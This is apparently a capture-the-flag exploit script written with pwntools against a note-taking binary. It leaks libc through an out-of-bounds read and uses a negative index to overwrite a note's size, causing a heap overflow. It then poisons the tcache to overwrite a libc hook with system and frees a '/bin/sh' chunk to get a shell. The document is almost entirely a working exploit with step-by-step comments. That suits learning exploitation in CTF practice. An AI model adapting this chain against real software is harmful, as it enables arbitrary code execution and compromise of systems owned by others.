host = ''
port = 0

if args.REMOTE:
    # p = remote(host,port,ssl=True)
    p = remote(host,port)
else:
    p = process([exe.path])
GDB()
# Libc leak using out of bound
rd(-1872)
ru(b'Data: ')
lib = u64(r(6)+b'\0\0')
libc.address = lib - 0x28070
info("Libc leak: "+hex(lib))
info("Libc base: "+hex(libc.address))
hook = libc.address + 0x1c8e40

# Using Hook Overwrite for shell
# This chunk for heap overflow
add(0, 0x50, b'a'*8)

# These chunk for poisoning
add(2, 0x50, b'b'*8)
add(3, 0x50, b'c'*8)

# Overite size note index 0
add(-4, 0x50, b'a'*8)
# Now, the size of note[0] is overwritten resulting in the heap overflow from chunk[0] to chunk[2] & [3]

# Remove chunk[3] first for the later allocation for /bin/sh
rm(3)
# Remove chunk[2] for the first allocation at hook
rm(2)

# Payload for heap leak
p0 = flat(b'a'*0x68)
# Heap overflow to reach the heap address
ed(0, p0)
# Read the chunk and the content will include the heap address
rd(0)
ru(b'a'*0x68)
pos = rl()[:-1]
pos = u32(pos.ljust(4,b'\0'))
info("Heap leak: "+hex(pos))
pos += 0x2f0

# Payload for heap overflow to overwrite hook
p1 = flat(b'a'*0x58, 0x51, gen(pos, hook))
# Heap overflow -> overwrite the forward pointer of chunk 2 (replace &chunk[3] by hook address)
ed(0, p1)

# GDB()
# Remember not to allocate at idx 0 and 1 because notesize is now bring the pointer of the chunk[-4]
# Allocate for address of /bin/sh (the later freed chunk)
add(2, 0x50, b'/bin/sh\0')
# Allocate chunk 2 for hook overwrite to system (the first freed chunk now is replaced by free hook)
add(3, 0x50, p64(libc.sym.system))

# Free now will call free_hook(now is system) and the first arg is address of /bin/sh
rm(2)
p.interactive()
```
